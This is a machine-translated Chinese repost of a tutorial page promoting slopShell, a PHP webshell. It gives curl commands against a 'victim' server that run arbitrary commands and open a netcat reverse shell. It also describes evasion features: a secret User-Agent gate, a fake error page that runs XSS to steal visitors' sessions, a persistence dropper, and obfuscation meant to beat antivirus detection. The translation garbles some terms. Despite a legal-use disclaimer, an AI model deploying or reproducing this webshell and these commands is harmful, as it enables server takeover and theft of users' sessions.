






# slopShell:您需要的唯一 Php Webshell

> 原文：<https://kalilinuxtutorials.com/slopshell/>

slopShell 是你唯一需要的 Php Webshell。因为我练了，忘了说用法。开始了。

要让这个 shell 工作，您需要两样东西，一个允许 php 文件上传的受害者(您自己，在教育环境中)和一个向这个 webshell 发送 http 请求的方法。

感谢社区给予的所有支持，这对我们意义重大。现在来看看将会添加到这个外壳上的东西，让它变得更棒。

*   相互 TLS，能够动态生成 CA(如果可能的话)
*   更精致的滴管/外壳本身，确保外壳不会因长时间访问而被绊倒。

基本使用视频(托管在 Youtube 上):

当前室性心动过速检测比率:2/59

当前室性心动过速检测比率(模糊版本):0/59

**设置**

好了，我们开始吧，伙计们，有一个痒，我必须用 PHP 写点东西，所以这是它。这个 webshell 有一些额外的功能，并且每天都会添加更多。您将需要运行一个由您控制的 pgsql 服务器。无论你如何实施，都取决于你自己。

Debian: `**apt install -y postgresql php php-pear && python -m pip install proxybroker --user**`

RHEL 系统:`**dnf -y -b install postgresql-server postgresql php php-pear && python -m pip install proxybroker --user**`

胜利:`**install the php msi, and make sure you have an active postgresql server that you can connect to running somewhere. figure it out.**`

一旦您正确地设置了这些，并且可以确认它们正在运行。我鼓励使用的一个命令是用 **`pg_ctl`** 你可以这样创建数据库，或者至少初始化它并启动它。那么所有的数据库查询都将正常工作。

**如何互动**

对于反分析程序，我(oldkingcone)很乐意尝试并以此为荣，但我不能凭良心说，所以灵感来自一个人(你知道你是谁，你这个邪恶的天才。)谁给我介绍了这个 repo:[https://github . com/null array/Archivist/blob/master/logger . py # L123](https://github.com/NullArray/Archivist/blob/master/logger.py#L123)首先，你需要选择一个有效的用户代理来使用，这有点像是防止你的 webshell 被除你之外的任何人意外发现的第一层保护。我选择了 sp/1.1，因为它不是典型的用户代理。这会导致 pentest 中出现危险信号，您的访问或脚本被阻止或删除。所以，放聪明点。代码混淆不会造成伤害，我没有把它加进去，因为这取决于你。要使用 shell，有一些预置来帮助您进行笔测试和机器遍历。我没有为 windows 添加太多，因为我不喜欢为 windows 开发。如果你增加了或知道了一些常规或技巧，请随时提出你的建议，我会补充的。如何将这个 webshell 与 curl 结合使用的示例:

`**curl https://victim/slop.php?qs=cqP -H "User-Agent: sp/1.1" -v**`

或者执行自定义命令:

`**curl https://victim/slop.php --data "commander=id" -H "User-Agent: sp/1.1" -v**`

或者尝试为您的计算机建立一个反向 shell:

`**curl https://victim/slop.php --data "rcom=1&mthd=nc&rhost=&rport=&shell=sh" -H "User-Agent: sp/1.1" -v**`

*   mthd =你要用来建立反向 shell 的方法，这是在`**$comma**`数组中预定义的，可以随意添加，可选，如果为 null，脚本会为你选择。
*   rhost = you，现在不需要这个和 rport，因为它默认使用 netcat，ip 地址在`**$_SERVER["REMOTE_ADDR"]**` php env 变量中。
*   rport =您的侦听器端口，默认设置为 1634，这是因为。
*   shell =您想要的系统 shell 类型。我知道 bash 并不是所有系统的标准，但是这就是为什么在您尝试执行这个命令之前做一些系统侦察是很好的。

这是这个壳的大部分。如果有人碰巧在这个外壳上没有提供脚本中指定的确切用户代理字符串，这个外壳将产生一个 500 错误和一个虚假的错误页面，然后它将尝试一些 XSS 来窃取该用户的会话信息，并将其发送回您的服务器/系统上的处理程序脚本。这将尝试将信息存储在正在运行的日志文件中。如果它不能这样做，那么备份就是你的日志。一旦 XSS 完成，这个 shell 将把用户重定向回 web 服务器的根目录(/)。因此，如果有人发现这一点，你将窃取会话，甚至可以加强它以代表用户在服务器上执行命令，或者通过 beef 或其他方法在用户浏览器上放置一个反向外壳。可能性是无限的。

**用例图像**

在浏览器中，导航到没有正确的用户代理字符串。(第一级授权)

在终端中使用，这就是它的设计工作方式，使用 curl 和-vH "User-Agent: sp1.1 "开关。

混淆脚本示例:

第 2 代模糊脚本:

**通过客户端脚本进行交互**

一旦客户机脚本完成，作为操作员的您将不再需要通过 curl 来使用这个 shell。将有一个客户端脚本，您可以使用它来执行所有命令/控制。除了这个客户端脚本，还有一个 dropper。这个滴管将确保脚本在启动时运行，即使网站被删除。包括一些 call home 函数，如果在从 1 到 3 的级别上请求混淆，3 是最高级别，因为每个函数都将被 rot 加密，然后在整个文件内以 base64 编码，以随机名称分配给文件本身。这有助于避免签名检测。

**加密**

一旦加密例程完全完成，dropper 脚本将被加密，并高度混淆。示例输出:

**Base64 解码:也是一个测试 123
重编码:ywxzbyhibhrlc 3 qgmtiz
密钥:4212 BD 1 ff 1d 366 f 23 ca 77021706 a9 a 29 CB 824 b45 f 82 AE 312 BCF 220 de 68 c 76760289 f1 d 550 aa 341002 f1 CFA 9831 e 871 e
密钥长度:96
加密结果:【T5**

**附加**

这是保密的。但我另有决定。

不要滥用这个外壳，并得到一个签名附在它上面，这是相当隐形的权利，因为它是全新的。

作为维护者，我对该产品的误用不负任何责任。这是为了合法渗透测试/红队目的，和/或教育价值而发布的。在使用本脚本之前，请了解您所在国家的适用法律，并且在使用本脚本时不要违反法律。谢谢你，祝你愉快。

如果你喜欢这个脚本，你有义务跟随我，并在这个回购上扔一颗星…因为未来的版本将有更多的功能(或错误)取决于你如何看待它。

[**Download**](https://github.com/oldkingcone/slopShell)